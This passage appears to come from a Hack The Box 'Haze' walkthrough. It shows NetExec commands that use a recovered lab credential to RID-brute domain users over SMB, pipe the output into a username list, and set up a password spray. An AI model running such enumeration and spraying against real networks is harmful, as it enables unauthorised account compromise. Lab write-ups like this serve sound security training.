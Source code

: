 ```bash
nxc smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute
```

![Screenshot 2025-03-31 at 8.18.35 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.18.35_PM.png)

Grep all the line which has SidTypeUser

```bash
nxc smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep "SidTypeUser"
```

![Screenshot 2025-03-31 at 8.20.35 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.20.35_PM.png)

now some regex making a file for users.txt

```bash
nxc smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```

```bash
┌──(root㉿pain)-[/home/pain/HTB/Season7/Haze]
└─# cat users.txt
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Back
```

---

## 🗝️ Lateral Moment :-

### Password Spray Attack

Always do a Password spray
